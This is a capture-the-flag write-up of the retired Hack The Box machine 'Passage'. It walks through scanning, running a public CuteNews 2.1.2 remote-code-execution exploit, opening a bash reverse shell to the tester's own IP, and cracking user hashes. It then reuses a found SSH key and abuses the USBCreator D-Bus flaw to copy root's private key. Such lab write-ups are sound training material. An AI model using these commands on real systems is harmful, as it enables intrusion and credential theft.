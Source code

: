 # Passage

This is the write-up for the box Passage that got retired at the 6th March 2021.
My IP address was 10.10.14.6 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.206    passage.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/passage.nmap 10.10.10.206
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|_  256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Passage News
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The website looks like a blog page with one useful article with the title **"Implemented Fail2Ban"**.
In the footer it shows that it is built with [CuteNews](https://cutephp.com/) content management system.

Searching for public vulnerabilities for **CuteNews**:
```
searchsploit cutenews
```
```
(...)
CuteNews 2.1.2 - Remote Code Execution
```

There is a **Remote Code Execution** for version 2.1.2 which is pretty new, so this may work:
```
python3 48800.py

Enter the URL> http://10.10.10.206/
```
```
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: 2XapcXGY49 and password: 2XapcXGY49

=======================================================
Sending Payload
=======================================================
signature_key: b6745348d2518c0a89d60dd9ccdcf733-2XapcXGY49
signature_dsi: 6d82cba8e7f811e131bbf19edc37abc2
logged in user: 2XapcXGY49
============================
Dropping to a SHELL
============================

command > id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It extracts credentials from the directory _/CuteNews/cdata/users/lines_ that can be cracked later.
Then it registers a user and uploads the avatar with an image which contains the PHP payload and commands can be executed as _www-data_.

This exploit executes every command individually and is not a real shell, so lets use this to start a reverse shell connection:
```
command > bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'
```

After sending the command, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

In the directory _/var/www/html/CuteNews/cdata/users_ are the credentials of the users, that the exploit found on the web server.
When looking at those, there are two more hashes that were not disclosed on the web directory:
```
for i in $(find . -name "*.php"); do tail -1 $i | base64 -d; echo; done | grep -oP [a-z0-9]{64}
```
```
2d881cd5961343b90086878af823ebf5c4c2b7052c858010bff6c5ef7a7b6889
e7d3685715939842749cc27b38d0ccb9706d4d14a5304ef9eee093780eab5df9
```

All hashes can be searched on public hash databases like [CrackStation](https://crackstation.net/) and the cleartext password of three hashes will be found:
- 4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc = egre55
- e7d3685715939842749cc27b38d0ccb9706d4d14a5304ef9eee093780eab5df9 = hacker
- e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd = atlanta1

The password _"atlanta1"_ belongs to the only user that exists on the box _paul_, so it could be possible to switch users:
```
su paul
```

It works and logs us in as the user _paul_.

### Privilege Escalation 2

In the home directory of _paul_ is the _.ssh_ directory with a public and a private key from the user _nadav_.

Copying the contents of the private key to our local client and login in as _nadav_:
```
ssh -i nadav.key nadav@10.10.10.206
```

### Privilege Escalation to root

In the home directory of _nadav_ is a _.viminfo_ file that contains some history about what was done with **Vim**:
```
# Command Line History (newest to oldest):
:wq
:%s/AdminIdentities=unix-group:root/AdminIdentities=unix-group:sudo/g

(...)

# File marks:
'0  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
'1  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
```

This user changed the group _root_ to _sudo_ in the _51-ubuntu-admin.conf_ configuration.
There exists a configuration file for **USBCreator**, which is used to convert create bootable USB devices.

An [article from Palo Alto](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) describes how this can be exploited to escalate privileges and read files that belong to root.

Reading the private SSH of root:
```
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /dev/shm/root.key true

cat /dev/shm/root.key
```

An SSH key exists and its contents can be copied to our local client to login as root!
```
ssh -i root.key 10.10.10.206
```
